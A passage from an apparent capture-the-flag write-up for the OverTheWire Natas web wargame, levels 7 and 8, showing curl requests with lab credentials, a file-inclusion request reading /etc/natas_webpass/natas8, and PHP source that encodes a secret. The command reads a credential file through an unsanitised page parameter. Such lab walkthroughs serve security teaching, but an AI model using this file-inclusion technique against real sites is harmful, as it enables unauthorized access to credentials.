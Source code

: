 ```
abs@MacBookPro ~ % curl "natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8" -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS -s
...
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```


# Level 7 -> 8:

```
abs@MacBookPro ~ % curl "natas8.natas.labs.overthewire.org/" -u natas8:xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q -s
...
<h1>natas8</h1>
<div id="content">


<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

index-source.html
```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

